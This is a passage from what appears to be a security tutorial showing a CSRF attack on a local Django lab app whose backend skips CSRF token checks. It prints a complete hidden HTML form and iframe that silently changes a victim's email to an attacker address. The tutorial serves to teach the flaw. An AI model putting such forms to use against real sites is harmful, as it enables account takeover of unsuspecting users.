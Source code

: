 
The important stuff to look in the above request are:

- The *Referer* and the *Host* fields point to the **same host** - where the Django app is hosted.
- The *sessionid* cookie - this is what we are after. Stealing this cookie **allows an attacker to impersonate the owner**. As far as the application is concerned - **if you have the cookie, then you are the real one and only owner of that cookie**.
- The csrf token is truly randomly generated, but **not verified by the backend thus useless**.

Unfortunately, the **[Same origin policy](https://en.wikipedia.org/wiki/Same-origin_policy) protects the cookie** - it can only be accessed from the *http://127.0.0.10:8000* origin.

### Wouldn't it be neat if we could make the victim's browser send the request for us as if the victim has submitted the change email form?

Well guess what - **we can!** This is exactly what the hidden post form does in the malicious site. Let's have a second look at it to understand how exactly it tricks our browser to send the *sessionid* cookie.

```html
<form id="form" method="post" action="http://127.0.0.10:8000/accounts/change/email/" target="my_iframe" style="display:none">
    <input type="hidden" name="csrfmiddlewaretoken" value="mz4LR3Umv8hpB2Go4VLNmkRslgLIwdgc1zr7m7YYhiys8cGES7xZSOQVD0534fgt">
    <div class="alert alert-danger alert-dismissable alert-link" role="alert">
        <button class="close" type="button" data-dismiss="alert" aria-label="close">&#215;</button>
        Please enter another email.
    </div>
    <div class="form-group is-invalid">
        <label for="id_email">Email</label>
        <input type="email" name="email" value="attacker@attacker.com"
                    class="form-control is-invalid" placeholder="Email" title="" required id="id_email">
     <div class="invalid-feedback">Please enter another
         email.
     </div>
    </div>
    <input type="submit" class="btn btn-success">Change</button>
</form>
<iframe style="display:none" width="0" height="0" border="0" name="my_iframe" id="my_iframe"></iframe>
```

This form is a copy of the legitimate form from our Django app, with the only difference that the **fields have set values**.
(The csrfmiddlewaretoken field's value is randomly set. It can even be omitted and it won't make a difference)

We **post the form to the iframe** so that the page **does not refresh**. (tbh I could delete all the labels and css classes - it won't make any difference for the exploit).

#### Basically, we want the victim to change their email address to "attacker@attacker.com".
